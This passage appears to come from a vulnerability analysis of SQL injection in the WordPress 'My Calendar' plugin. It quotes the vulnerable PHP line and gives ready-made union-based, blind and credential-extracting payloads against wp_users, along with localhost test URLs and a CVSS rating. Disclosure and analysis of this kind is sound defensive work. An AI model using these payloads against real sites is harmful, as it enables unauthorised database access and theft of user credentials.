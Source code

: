 2. **Standard API** (`my-calendar-api.php`, line ~31):
   ```php
   $from = ( isset( $_REQUEST['from'] ) ) ? $_REQUEST['from'] : current_time( 'Y-m-d' );
   ```

**Note:** While `sanitize_text_field()` is used in the REST endpoint, it **does NOT prevent SQL injection** - it only removes HTML tags and some special characters but allows quotes and SQL syntax.

## Example SQL Injection Payloads (FOR EDUCATIONAL ANALYSIS ONLY)

### 1. Basic Union-Based SQLi
```
from=2025-01-01' UNION SELECT NULL,NULL,NULL,table_name,NULL,NULL,NULL,NULL,NULL,NULL FROM information_schema.tables WHERE table_schema=database()--
```

### 2. Time-Based Blind SQLi
```
from=2025-01-01' AND (SELECT SLEEP(5))--
```

### 3. Boolean-Based Blind SQLi
```
from=2025-01-01' AND 1=1--
from=2025-01-01' AND 1=2--
```

### 4. Extract Data
```
from=2025-01-01' UNION SELECT NULL,user_login,user_pass,user_email,NULL,NULL,NULL,NULL,NULL,NULL FROM wp_users--
```

## Testing URLs (FOR CONTROLLED LAB ENVIRONMENT ONLY)

```bash
# REST API endpoint
http://localhost:8080/?rest_route=/my-calendar/v1/events&from=2025-01-01'%20UNION%20SELECT%201--

# Legacy API endpoint
http://localhost:8080/?my-calendar-api=json&from=2025-01-01'%20UNION%20SELECT%201--
```

## Impact Assessment

### CVSS 3.1 Score: **CRITICAL (9.8)**
- **Attack Vector:** Network
- **Attack Complexity:** Low
- **Privileges Required:** None
- **User Interaction:** None
- **Confidentiality:** High (full database read)
- **Integrity:** High (potential database modification)
- **Availability:** High (potential DoS via DROP TABLE)

